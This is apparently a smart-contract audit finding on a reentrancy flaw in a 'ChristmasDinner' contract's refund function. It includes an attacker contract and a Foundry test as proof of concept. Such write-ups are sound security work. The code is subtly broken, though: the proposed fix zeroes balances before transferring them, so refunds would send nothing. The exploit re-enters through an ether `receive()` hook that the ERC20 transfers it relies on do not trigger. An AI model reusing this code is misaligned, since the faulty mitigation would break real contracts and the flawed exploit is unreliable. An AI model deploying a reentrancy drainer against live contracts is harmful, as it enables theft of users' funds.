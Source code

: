 ### [H-08] reentrancy in `ChristmasDinner::refund()` draining all the funds in the contract

**Description:** 

reentrancy guard is not properly set in `ChristmasDinner::nonReentrant` modifier.

```javascript
    modifier nonReentrant() {
@>      require(!locked, "No re-entrancy");
        _;
        locked = false;
    }
```

Reentrancy is possible in `ChristmasDinner::refund()`, because effects are written after interactions and the reentrancy guard does not work.

```javascript
    function _refundERC20(address _to) internal {
@>      i_WETH.safeTransfer(_to, balances[_to][address(i_WETH)]);
        i_WBTC.safeTransfer(_to, balances[_to][address(i_WBTC)]);
        i_USDC.safeTransfer(_to, balances[_to][address(i_USDC)]);
        balances[_to][address(i_USDC)] = 0;
        balances[_to][address(i_WBTC)] = 0;
        balances[_to][address(i_WETH)] = 0;
    }
```

**Impact:**

High. All the funds can be stolen.

**Proof of Concept:**

Attacker contract:
```javascript
contract ChristmasDinnerReentrancyAttack {
    ChristmasDinner christmasDinner;
    ERC20Mock wbtc;
    uint256 depositAmount = 1e18;

    constructor(ChristmasDinner _christmasDinner, ERC20Mock _wbtc) {
        christmasDinner = _christmasDinner;
        wbtc = _wbtc;
        wbtc.approve(address(christmasDinner), 1e18);
    }

    receive() external payable {
        console.log(ERC20Mock(wbtc).balanceOf(address(christmasDinner)));
        if (
            ERC20Mock(wbtc).balanceOf(address(christmasDinner)) > depositAmount
        ) {
            christmasDinner.refund();
        }
    }

    function attack(address _token, uint256 _amount) external payable {
        christmasDinner.deposit(_token, _amount);
        christmasDinner.refund();
    }

    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

Test function:
```javascript
function test_refundReentrancyAttack() public {
        uint256 wbtcAmount;
        vm.startPrank(user1);
        cd.deposit(address(wbtc), 1e18);
        wbtcAmount += 1e18;
        vm.stopPrank();
        vm.startPrank(user2);
        cd.deposit(address(wbtc), 2e18);
        wbtcAmount += 2e18;
        vm.stopPrank();
        vm.startPrank(user3);
        cd.deposit(address(wbtc), 1e18);
        wbtcAmount += 1e18;
        vm.stopPrank();

        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);

        ChristmasDinnerReentrancyAttack cdra = new ChristmasDinnerReentrancyAttack(
                cd,
                wbtc
            );
        wbtc.mint(address(cdra), 1e18);
        wbtcAmount += 1e18;
        console.log("wbtcAmount: ", wbtc.balanceOf(address(cdra)));
        cdra.attack(address(wbtc), 1e18);

        console.log("wbtcAmount: ", wbtc.balanceOf(address(cdra)));
        assertEq(wbtc.balanceOf(address(cdra)), 4e18);
    }
```

All the funds can be stolen from the contract.

**Recommended Mitigation:**

implement the reentrancy guard correctly:

```diff
    modifier nonReentrant() {
        require(!locked, "No re-entrancy");
+       locked = true;
        _;
        locked = false;
    }
```

Also, a good practice is to write code following CEI, checks, effects, interactions:

```diff
    function _refundERC20(address _to) internal {
-       i_WETH.safeTransfer(_to, balances[_to][address(i_WETH)]);
-       i_WBTC.safeTransfer(_to, balances[_to][address(i_WBTC)]);
-       i_USDC.safeTransfer(_to, balances[_to][address(i_USDC)]);
        balances[_to][address(i_USDC)] = 0;
        balances[_to][address(i_WBTC)] = 0;
        balances[_to][address(i_WETH)] = 0;
+       i_WETH.safeTransfer(_to, balances[_to][address(i_WETH)]);
+       i_WBTC.safeTransfer(_to, balances[_to][address(i_WBTC)]);
+       i_USDC.safeTransfer(_to, balances[_to][address(i_USDC)]);
    }
```

Note: This error aplies to the contract tokens, but funds can be lost from ether too. Implement the necessary changes to cover all the funds.d